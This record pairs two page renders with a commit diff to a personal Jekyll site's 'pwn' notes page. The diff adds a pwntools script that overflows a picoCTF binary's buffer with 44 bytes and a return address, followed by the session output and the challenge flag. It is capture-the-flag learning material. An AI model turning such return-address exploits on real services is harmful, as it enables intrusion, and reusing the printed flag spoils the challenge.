

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 4867 px. Shown: the top 874 px of the window, without its empty margins (0-966 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 5353 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -209,3 +209,21 @@ Segmentation fault (core dumped)
 It works locally!
 
 You can also use this function `from pwn import p32` to avoid manually converting to little endian.
+
+```python
+from pwn import p32, remote
+
+payload = b"A"*44 + p32(0x080491f6)
+io = remote("saturn.picoctf.net", 56437)
+io.read()
+io.sendline(payload)
+io.interactive()
+```
+
+```
+$ python solve.py
+[+] Opening connection to saturn.picoctf.net on port 56437: Done
+[*] Switching to interactive mode
+Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
+picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
+```
````
